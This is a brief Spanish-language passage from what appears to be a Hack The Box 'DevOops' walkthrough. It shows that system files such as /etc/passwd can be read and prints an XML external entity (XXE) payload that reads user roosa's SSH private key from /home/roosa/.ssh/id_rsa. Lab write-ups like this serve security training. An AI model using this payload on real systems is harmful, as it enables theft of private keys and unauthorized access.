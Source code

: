 ![""](/assets/images/htb-devoops/devoops-etc.png)

Podemos visualizar archivos de sistema, para este caso el archivo `/etc/passwd`. Recordando que tenemos el puerto 22 abierto, podríamos tratar de visualizar el archivo `id_rsa` del usuario **roosa**.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<elements>
        <Author>&xxe;</Author>
        <Subject>Test</Subject>
        <Content>Esto es un test</Content>
</elements>
```
